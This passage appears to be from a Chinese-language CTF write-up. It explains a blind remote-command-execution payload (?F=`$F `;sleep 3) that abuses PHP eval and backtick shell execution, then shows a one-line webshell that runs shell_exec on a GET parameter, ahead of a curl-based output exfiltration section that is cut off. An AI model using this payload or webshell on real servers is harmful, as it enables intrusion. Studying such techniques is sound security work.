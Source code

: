 可以看到难点即在于这个`substr`。但这个地方，观察后发现`$_GET['F']`被赋值给了`$F`，接下来这个变量才被用于截断。那先上`payload`，再解释。

```php
?F=`$F `;sleep 3
```

通过传入上面的`payload`，`$F`变量在`if`语句里面被赋值为:

```php
`$F `;sleep 3
```

这样一来，在`eval`函数的地方，将先执行`substr($F,0,6)`（先后顺序，和我们传入的无关）

然后这段代码其实执行的是：

```php
eval("`$F `;");
```

相当于执行了这个：

```php
`$F `;
```

我们知道反引号其实是`shell_exec`函数，那么最终相当于执行：

```php
shell_exec($F );
```

已知`$F`是整段`payload`，那么即执行了：

```php
shell_exec("`$F `;sleep 3");
```

在服务器上执行了两个命令，以冒号分隔，分别是：

```bash
`$F `
```

和

```bash
sleep 3
```

到这里我们明白，`payload`中`;`之后的是我们可以操控执行的任意无回显`RCE`。其实感觉主要是变量赋值和`eval`的使用不当，不太是变量覆盖，毕竟也没有覆盖什么变量。

## CURL带出命令执行结果

无回显的RCE有多种解决方法，此处写一下使用`CURL`带出命令。

`CURL`是一个命令行的`web`数据包工具，功能还比较强大，有空可以专门来写一下`CURL`用法。

这里咱们写一下怎么使用`CURL`带出命令的执行结果。

我们在被攻击机器上写一个无回显的命令执行脚本`shell.php`：

```php
<?php
    shell_exec($_GET[1]);
```
